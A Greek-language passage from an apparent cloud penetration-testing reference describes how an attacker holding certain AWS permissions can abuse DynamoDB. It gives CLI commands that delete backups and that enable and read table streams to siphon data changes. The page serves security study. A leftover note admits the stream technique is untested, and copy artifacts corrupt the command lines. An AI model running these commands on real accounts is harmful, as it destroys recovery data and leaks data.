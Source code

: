 ### `dynamodb:DeleteBackup`

Ένας επιτιθέμενος με αυτή την άδεια μπορεί **να διαγράψει ένα αντίγραφο ασφαλείας DynamoDB, προκαλώντας πιθανώς απώλεια δεδομένων σε περίπτωση σεναρίου αποκατάστασης από καταστροφή**.
```bash
aws dynamodb delete-backup \
--backup-arn arn:aws:dynamodb:<region>:<account-id>:table/TargetTable/backup/BACKUP_ID \
--region <region>
```
**Πιθανές επιπτώσεις**: Απώλεια δεδομένων και αδυναμία ανάκτησης από αντίγραφο ασφαλείας κατά τη διάρκεια ενός σεναρίου αποκατάστασης καταστροφών.

### `dynamodb:StreamSpecification`, `dynamodb:UpdateTable`, `dynamodb:DescribeStream`, `dynamodb:GetShardIterator`, `dynamodb:GetRecords`

{% hint style="info" %}
TODO: Δοκιμάστε αν αυτό λειτουργεί πραγματικά
{% endhint %}

Ένας επιτιθέμενος με αυτές τις άδειες μπορεί **να ενεργοποιήσει μια ροή σε έναν πίνακα DynamoDB, να ενημερώσει τον πίνακα για να αρχίσει να ρέει οι αλλαγές και στη συνέχεια να έχει πρόσβαση στη ροή για να παρακολουθεί τις αλλαγές στον πίνακα σε πραγματικό χρόνο**. Αυτό επιτρέπει στον επιτιθέμενο να παρακολουθεί και να εξάγει τις αλλαγές δεδομένων, ενδεχομένως οδηγώντας σε διαρροή δεδομένων.

1. Ενεργοποιήστε μια ροή σε έναν πίνακα DynamoDB:
```bash
bashCopy codeaws dynamodb update-table \
--table-name TargetTable \
--stream-specification StreamEnabled=true,StreamViewType=NEW_AND_OLD_IMAGES \
--region <region>
```
2. Περιγράψτε τη ροή για να αποκτήσετε το ARN και άλλες λεπτομέρειες:
```bash
bashCopy codeaws dynamodb describe-stream \
--table-name TargetTable \
--region <region>
```
3. Πάρτε τον δείκτη τμήματος χρησιμοποιώντας το stream ARN:
```bash
bashCopy codeaws dynamodbstreams get-shard-iterator \
--stream-arn <stream_arn> \
--shard-id <shard_id> \
--shard-iterator-type LATEST \
--region <region>
```
4. Χρησιμοποιήστε τον δείκτη τμήματος για να αποκτήσετε πρόσβαση και να εξάγετε δεδομένα από τη ροή:
```bash
bashCopy codeaws dynamodbstreams get-records \
--shard-iterator <shard_iterator> \
--region <region>
```
**Πιθανές επιπτώσεις**: Παρακολούθηση σε πραγματικό χρόνο και διαρροή δεδομένων από τις αλλαγές του πίνακα DynamoDB.
